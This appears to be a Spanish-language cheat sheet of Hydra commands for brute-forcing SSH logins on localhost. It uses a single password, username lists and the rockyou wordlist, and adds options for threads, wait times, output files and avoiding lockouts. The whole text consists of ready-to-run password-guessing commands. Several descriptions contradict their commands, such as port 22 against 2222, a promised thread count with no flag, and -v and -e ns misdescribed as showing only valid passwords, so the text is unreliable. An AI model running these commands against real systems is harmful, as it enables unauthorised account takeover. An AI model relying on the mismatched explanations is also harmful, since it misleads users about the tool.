 Comprobar usuario user1 con contraseña iloveyou en ssh://localhost:22

`hydra -l user1 -p iloveyou ssh://localhost:22`

Comprobar usuario user1 con diccionario en ssh://localhost:22 con 4 hilos

`hydra -l user1 -P /rockyou.txt ssh://localhost:22`

Comprobar usuarios y contraseña con diccionarios en ssh://localhost:22

`hydra -L usernames.txt -P rockyou.txt ssh://localhost:2222`

Comprobar usuarios y contraseña con diccionarios en ssh://localhost:22 con 4 hilos, evitando bloqueo

`hydra -L /usernames.txt -P /rockyou.txt ssh://localhost -t 4`

Comprobar usuarios y contraseña con diccionarios en ssh://localhost:22 con 4 hilos, evitando bloqueo y mostrando solo las contraseñas correctas

`hydra -L /usernames.txt -P /rockyou.txt ssh://localhost -t 4 -v`

Comprobar usuarios y contraseña con diccionarios en ssh://localhost:22 con 4 hilos, evitando bloqueo y mostrando solo las contraseñas correctas y guardando los resultados en un archivo

`hydra -L /usernames.txt -P /rockyou.txt ssh://localhost -t 4 -v -o /tmp/hydra.txt`

Comprobar usuarios y contraseña con diccionarios en ssh://localhost:22 con 4 hilos, evitando bloqueo y mostrando solo las contraseñas correctas y guardando los resultados en un archivo y mostrando solo las contraseñas correctas

`hydra -L /usernames.txt -P /rockyou.txt ssh://localhost -t 4 -v -o /tmp/hydra.txt -e ns`

Debemos ajustar siempre los threads y el tiempo de espera para evitar bloqueos y no saturar el servidor:

`hydra -L /usernames.txt -P /rockyou.txt ssh://localhost -t 8 -w 30 -v -o /tmp/hydra.txt`